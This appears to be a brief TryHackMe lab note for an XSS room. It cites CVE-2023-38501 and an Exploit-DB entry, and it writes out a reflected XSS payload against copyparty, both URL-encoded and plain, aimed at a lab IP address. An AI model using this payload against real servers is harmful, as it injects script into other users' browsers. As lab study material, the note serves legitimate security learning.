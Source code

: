 ### 2024-04-28-Sun

[XSS](https://tryhackme.com/r/room/axss)

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38501

https://www.exploit-db.com/exploits/51635

?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E

?k304=y <img src=copyparty onerror=alert(1)>

http://10.10.18.215:3923

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/1a618a98-d5d8-4d5b-b46e-96b1fbca9cda)

